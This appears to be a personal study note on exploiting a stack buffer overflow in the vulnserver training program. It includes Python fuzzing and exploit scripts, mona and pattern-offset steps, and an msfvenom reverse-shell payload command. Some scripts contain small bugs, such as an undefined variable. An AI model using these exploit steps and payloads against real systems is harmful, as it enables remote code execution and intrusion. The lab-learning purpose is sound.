 ```yaml
---
title: "Buffer Overflow"
date: 2023-05-08T04:11:06-02:00
draft: false
toc: false
images:
tags:
  - Book
---
```


## Memory Anatomy
![[Pasted image 20230607054321.png]]
### inside the stack we have these registers:-  
![[Pasted image 20230607054352.png]]
### Safe if it contain everything inside the Buffer Space
![[Pasted image 20230607064222.png]]
### If this was the case of Buffer over flow then
in Buffer overflow case it will overflow flow from buffer space to EBP and after EBP to EIP and this is where things get interesting
![[Pasted image 20230607064447.png]]

this is Return address and we will point this address toward our malicious code 

## How we can do Buffer overflow 
1. Spiking :- Here we will find which part of the program is vulnerable
2. Fuzzing :- sending some random character to test it when it will break(find breaking point of the program)
3. Finding the offset :- at which point the program break it
4. overwrite the EIP :- we will modify the return address
5. Finding the bad character :- you need to find the bad character which will not produce error in output
6. Finding the right module :-
7. Generating the shell code :- you need the Payload written without the bad character so that the application can execute it without any error
8. Root it :- You get the shell 

## Practical

1. preparation
 -> Run vulnserver and immunity as an administrator`immunity` is an application debugger it give us real time info about any application. (we need to attach those application to immunity)
 -> we will use our kali Linux to `connect` to the server `[nc -nv <ip address><port>]`
 -> we will figure out if the server take any input or command (it should accept command so that we can test it through `spiking`)
 -> we will take one command at a time a try to overflow it if we are able to do that we can succeed  in overflowing 
 -> we will use [[Generic send tcp]]  >>`generic_send_tcp`<<
 -> this is the "STATS.spk" command which will be used in 5
```c
s_readline();
s_string("STATS ");
s_string_variable("0");
```
[[STATS .spk]]

`[generic_send_tcp <host/ip> <port> <spike script> <skip variable> <skip variable>]`

###### Spiking vs Fuzzing
Spiking :- here we are trying to attack multiple command to find the vulnerability 
Fuzzing :- Here we are try to focus on 1 input (CMD)

**Note :-** They both are same one is in c and send is in python script

2. here we will use `Fuzzing` to attack the trun command which we found vulnerable in spiking.
 -> here is code written in python 
```python
#!/usr/bin/python3
import sys, socket 
from time import sleep
buffer = "A" * 100
while True:
	try:
		 payload = "TRUN /.:/" + buffer
		 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		 s.connect(('192.168.43.2',9999))
		 print ("[+] Sending the payload...\n" + str(len(buffer)))
		 s.send((payload.encode()))
		 s.close()
		 sleep(1)
		 buffer = buffer + "A"*100
	except:
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

by `fuzzing` we will find the approx. value where it will crash
3. Now we will use Metasploit framework to `find the offset` value `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`
4. in pattern create `pattern_create.rb -l 3000 ` it will generate a character with length of 3000
```python
#!/usr/bin/python
import sys, socket 

buffer = "pattern_create.rb -l 3000" 
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```
it will send the pattern with 3000 length
11. Now after sending this pattern we will check if the pattern is in `EIP` `register` or not if it is then what is the position
12. we will find the position using `pattern_offset.rb -l 3000 -q <eip value>` the ans tell us that at this point we can control the EIP
13. For confirmation we can use one test for the server.<--->
15. https://github.com/cytopia/badchars we will use this link to get the all the character 
16. we will test all the character and find which is the bad character 
```python
#!/usr/bin/python
import sys, socket
badchars ="  "
shellcode = "A" * <offset_point no/ Breakdown point no> + "B" * 4 + badchars
try:
	payload = "TRUN /.:/" + Shellcode 
	 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)   
	 s.connect(('192.168.43.2',9999))  
	 print ("[+] Sending the payload...\n" + str(len(buffer))) 
	 s.send((payload)) 
	 s.close() 
	 sleep(1) 	 
except: 
	print ("Error connecting server")
	sys.exit()
```

Here we will check the `ESP > follow and dump` here we will look from "01" to "FF" 
15. Find the bad character form `hex dump`

![[Pasted image 20230610095602.png]]

**NOTE** `if we get two consecutive no then the 1st number will be the bad character if we have only one number then it is OK `

16. finding the Right module using `mona module` 
 -> to start mona load it into default file 
 -> `[!mona modules]` to start mona module :- here we are looking for something which don't have any memory protection 
 -> Finding offcode equivalent of jump
 -> use `nasm_shell.rb`here we are trying to convert assembly language to hex code `JMP ESP`
 -> `mona find -s "\xff\xe4" -m <essfun.dll>(vulnerable dll should be here) ` 
 -> now we will use the jump code `625011af` and use it in `shellcode = "A"*2003+"\xaf\x11\x50\x62"` this is ndn formate here assembly lang use low byte in lower address and high order byte in high address
 ```python
#!/usr/bin/python3

import sys, socket
from time import sleep
#625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))
	payload = "TRUN /.:/" + shellcode
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
 -> we will catch this expression in immunity by `expression to follow dialog`box and `set a break point `using `F2`
-> Run the code
17. Now use metasploit Framework `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 EXITFUNc=thread -f c -a x86 -b"\x00" `
**Note** payload size
18. use a new shellcode 
```python
#!/usr/bin/python3

import sys, socket
from time import sleep
shellcode = "you have to write the shell code"
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + shellcode
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.43.2',9999))
	payload = "TRUN /.:/" + shellcode
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
"\\x90" * 32 it is known as nop NO OPERATION
19. listen through one port 
20. Run the program to get the shell

[[testing buffer overflow]]
